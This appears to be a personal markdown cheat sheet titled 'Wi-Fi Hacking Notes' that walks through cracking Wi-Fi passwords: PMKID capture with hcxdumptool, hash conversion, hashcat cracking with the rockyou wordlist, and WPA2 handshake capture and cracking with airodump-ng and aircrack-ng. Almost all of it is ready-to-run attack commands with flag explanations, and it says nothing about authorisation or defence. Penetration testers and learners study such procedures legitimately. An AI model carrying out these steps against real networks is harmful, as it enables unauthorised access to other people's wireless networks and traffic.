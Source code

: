 # Wi-Fi Hacking Notes

## Scan the Network for Access Points
Use the built-in **NetworkManager CLI** to detect local access points:

```bash
nmcli -p dev wifi list
```

- `-p` → organizes the output  
- `dev` → specifies what device to select  
- `wifi` → specifies the wireless interface  
- `list` → lists the available access points  

Once the desired access point has been selected, log the network information for future use.

---

## Kill Interfering Processes
Check to see if any processes are interfering with monitor mode:

```bash
sudo airmon-ng check kill
```

---

## Capturing the PMKID
Download and use **hcxdumptool** to extract the PMKID from the AP.  
Fill in the AP’s MAC address in the filter list flag:

```bash
sudo hcxdumptool -i wlan0 -o outcapture   --enable_status=1   --filterlist_ap=**:**:**:**:**:**   --filtermode=2 -c *
```

- `-i` → specifies the interface to use  
- `-o` → points to the output capture file  
- `--enable_status=1` → captures EAPOL frames to capture the PMKID  
- `--filterlist_ap` → the BSSID (MAC) of the AP  
- `--filtermode=2` → only scans the specified BSSID  
- `-c` → router’s channel  

---

## Converting the PMKID Capture File to a Hash
Use **hcxpcapngtool** to convert the capture file to a hash:

```bash
hcxpcapngtool -o hash.txt outcapture
```

- `-o` → points to the output hash file  

---

## Cracking the Hash
Use **hashcat** to crack the hash and obtain the password:

```bash
sudo hashcat -m 22000 hash.txt -a 0 -o password.txt /usr/share/wordlists/rockyou.txt
```

- `-m` → references the hash type (22000 is PMKID EAPOL)  
- `-a` → references attack mode  
- `-o` → points to the output text file  

---

## Viewing the Password
```bash
sudo cat password.txt
```

---

# WPA2 Attack Notes

### Scan for Networks
```bash
airodump-ng wlan0mon
```
Initiates a wireless network scan to find available networks.

---

### Targeted Capture
```bash
airodump-ng wlan0mon -w name.cap --bssid 28:80:88:3C:23:C2 -c 10
```

- `-w name.cap` → output file  
- `--bssid 28:80:88:3C:23:C2` → target specific AP  
- `-c 10` → focus on channel 10  

---

### Verify 4-Way Handshake
Open the `.cap` file in Wireshark and look for **EAPOL frames** to verify a handshake.

---

### Crack the Handshake
```bash
aircrack-ng name.cap
```
Attempts to brute-force or dictionary attack the captured handshake to discover the PSK.
